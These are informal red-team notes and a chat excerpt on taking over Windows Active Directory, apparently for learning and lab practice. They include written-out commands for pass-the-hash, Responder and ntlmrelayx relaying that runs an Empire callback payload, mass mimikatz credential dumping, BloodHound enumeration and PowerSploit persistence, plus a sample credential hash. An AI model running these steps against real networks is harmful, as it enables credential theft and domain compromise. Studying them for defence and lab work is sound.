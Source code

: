 bloodhound - every domain user is local admin on one pc, with local admin pass the hash to a pc where DA is logged in, use mimikatz or ntlm hash

username:unique identifier:lmhash:ntlmhash

When you see aad3b435b51404eeaad3b435b51404ee for lmhash it means it's blank

anything else means its populated

If you ever come across an LM hash it's like finding gold because it's super easy to crack

To pass a hash use the smb\_login metasploit module and for password type in aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71

If you're doing local admin pass the hash set workgroup to .

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password

You might lucky and both the workstations and servers share the same local administrator password

To capture a user I personally use Responder [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used

With relaying hashes you simply take the netntlmv2 hash you collected and relay it to a set of hosts and hopefully the user\(s\) have administrator access

[https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

This is a great guide on how to do relaying

The guide mentions using an Empire payload. This is the empire tool

So once you have administrator access to a box you can fun mimikatz

If you local administrator hash on all workstations you can use crackmap exec to do a mass mimikatz

So basically it does a pass the hash on multiple workstations, runs the mimikatz sekurlsa::loggonpasswords and returns output

Hopefully one of them is a domain admin and game over

Say you're an IT administrator

You're logged into your workstation and your account has domain admin rights

I come along and pop a admin shell on another workstation

I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz

If you're running win 7 and 8 i'll get plain text plus ntlm hash if you're running win 8.1 and above only ntlm hash

ok, so you gain the local admin hash, and pass it to the DA which proves you are admin on DA, which allows you to do mimikatz and extract domain admin credentials?

You're hoping the IT admins used the same local administrator account on all workstations

Yes

local hash is NTLM, network hash is netntlmv2

before you look for DA you type in net user "Domain Admins" /domain onto the box you have a shell on

It will come back with all the users in the DA group

then you can use tools like bloodhound or powersploit to find where they are logged in

Bloodhound collects information from the domain controller to determine the number of users, groups, computers and sessions

One server, and 3 workstations

The workstations will be win 7 win 8 and win 10

Next create a domain and give it whatever name you want

Create a domain administrator account and two user accounts

Log into one workstation with DA creds and the other with a regular user

Give the regular user local administrator rights Configure all workstations with the same local administrator account

windows 8.1 will only give ntlm hash

NTLM hash is just as good as plaintext creds when authenticating to windows machines so it's not that big of a deal

plaintext creds are stored in memory. Everytime a user clicks on a  network share the creds are passed across the network

https://www.christophertruncer.com/responder-user-account-credentials-first-come-first-served/

password spraying?

lm = everything before w7, but also local passwords shorter than 15 char

ntlm = local passwords

netntlmv2 = hashes captured on the network


shell net groups "Domain Admins/matrix"


|||||||||||||||||||||

lkys37en [8:13 PM]
When a windows machine needs to perform a resource lookup such as a network share it will go in this order DNS, WINS, NetBIOS and LLMNR (ink-Local Multicast Name Resolution)

[8:14]
Problem is because doing FQDN lookups is not enabled by default it defaults to WINS and then NetBIOS

FQDN is Fully Qualified Domain Name
Just another way of saying DNS name
For example, share.hacklab.net is a FQDN

[8:14]
For example if you looked up share.hacklab.local responder won't capture anything

[8:14]
If you looked up share it would

[8:16]
NetBIOS is a poor man's DNS

[8:17]
In the corporate world a DNS server is available to look up resources, in a home environment it's less likely so if you want to share content between two workstations NetBIOS is how it's done

[8:17]
But because users don't type in share.hacklab.net NetBIOS is used

https://github.com/SpiderLabs/Responder
https://github.com/CoreSecurity/impacket
https://github.com/EmpireProject/Empire
https://github.com/byt3bl33d3r/CrackMapExec
https://github.com/byt3bl33d3r/DeathStar
https://github.com/BloodHoundAD/BloodHound
https://github.com/BloodHoundAD/BloodHound/releases
https://github.com/PowerShellMafia/PowerSploit
https://github.com/gentilkiwi/mimikatz
https://neo4j.com/download/



https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
<copypaste payload>
agents


./Responder -I eth0
ntlmrelayx.py -tf targets.txt -c 'payload_from_empire'

|||||||||||||||| bloodhound

set up neo4j
https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/

/opt/neo4j-community-3.1.1/bin/neo4j
start neo4j and set new password
edit neo4j.conf
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474

launch bloodhound and log in to neo4j db

powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"

kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages


testuser:29418:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71

